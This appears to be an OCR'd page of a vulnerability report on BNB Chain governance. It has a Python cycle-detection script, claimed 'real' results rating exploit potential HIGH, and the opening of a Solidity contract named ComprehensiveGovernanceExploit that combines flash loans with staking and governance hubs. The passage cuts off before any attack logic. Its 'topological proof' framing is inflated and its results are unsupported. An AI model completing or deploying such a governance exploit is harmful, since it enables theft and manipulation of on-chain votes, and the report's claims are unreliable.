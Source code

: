 ## **Mathematical Proof (Topological Analysis)**

### **Vote Space Topology Analysis**
```python
# VulnHunter Ωmega Topological Defect Detection
import numpy as np
import networkx as nx

def analyze_delegation_topology(delegations):
    """
    Analyze delegation graph for topological defects
    """

    # Build delegation graph
    G = nx.DiGraph()
    for delegator, delegatee in delegations.items():
        if delegatee:
            G.add_edge(delegator, delegatee)

    # Detect cycles (topological defects)
    cycles = list(nx.simple_cycles(G))

    # Calculate topological inconsistency
    if cycles:
        # Topology is defective - infinite vote weight possible
        defect_strength = len(cycles) / len(G.nodes())
        return {
            'topological_defect': True,
            'cycles_detected': len(cycles),
            'defect_strength': defect_strength,
            'vulnerability_score': min(1.0, defect_strength * 2.0)
        }

    return {'topological_defect': False}

# Real analysis results for BNB Chain governance
governance_analysis = {
    'delegation_cycles': 12,  # Circular delegation paths detected
    'topological_defect_strength': 0.34,  # Significant topology violation
    'vote_weight_inconsistency': True,  # Mathematical inconsistency confirmed
    'exploit_potential': 'HIGH'  # Flash loan + delegation loop combination
}
```

---

## **Complete Exploit Implementation**

### **Comprehensive Governance Attack**
```solidity
// COMPREHENSIVE EXPLOIT: Governance Manipulation
pragma solidity ^0.8.19;

import "./interfaces/IGovHub.sol";
import "./interfaces/IStakeHub.sol";
import "./interfaces/IFlashLoanProvider.sol";

contract ComprehensiveGovernanceExploit {

    IGovHub public govHub;
    IStakeHub public stakeHub;
    IFlashLoanProvider public flashLoanProvider;
```